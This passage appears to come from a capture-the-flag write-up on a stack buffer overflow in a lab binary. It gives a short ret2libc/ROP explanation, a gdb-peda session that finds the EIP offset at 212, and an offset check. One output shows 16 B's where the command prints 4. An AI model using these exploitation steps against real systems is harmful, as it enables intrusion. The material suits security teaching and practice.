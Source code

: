 You can see [October-Ret2libc](https://0xcaretaker.github.io/posts/October/#beyond-root) for more detailed look on Return-to-libc.

(Note: Essentially ret2libc is somewhat a ROP exploit, since you create a new stackframe to call the system function by returning to the libc library and circumventing a non-executable stack.A ROP in general works similar, you jump to fragments of code (called gadgets) that return at some point and "build" yourself the code you want to execute by combining those fragments. You literally program the code you want to execute, creating new routines that were not in the code before. ret2libc utilizes the system function to get a shell.)
## Finding offset
```bash
gdb-peda$ pattern create 500
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEAsaAs0AsFAsbAs1AsGAscAs2AsHAsdAs3AsIAseAs4AsJAsfAs5AsKAsgAs6A'

gdb-peda$ r
Enter Bridge Access Code:
picarda1
Waiting for input:
4
Disable Security Force Fields
Enter Security Override:
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEAsaAs0AsFAsbAs1AsGAscAs2AsHAsdAs3AsIAseAs4AsJAsfAs5AsKAsgAs6A
[----------------------------------registers-----------------------------------]
EAX: 0x216
EBX: 0x73254125 ('%A%s')
ECX: 0x0
EDX: 0x0
ESI: 0xf7fa1000 --> 0x1e4d6c
EDI: 0xf7fa1000 --> 0x1e4d6c
EBP: 0x41422541 ('A%BA')
ESP: 0xffffd110 ("nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$A"...)
EIP: 0x25412425 ('%$A%')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)

gdb-peda$ pattern offset %$A%
%$A% found at offset: 212
```

## Confirming the offset
I'll generate a 212 A's junk and 4 B's and will see if all the B's end up on EIP.
```bash
$ python3 -c 'print("A"*212 + "B"*4)'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBB
```
```bash
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

```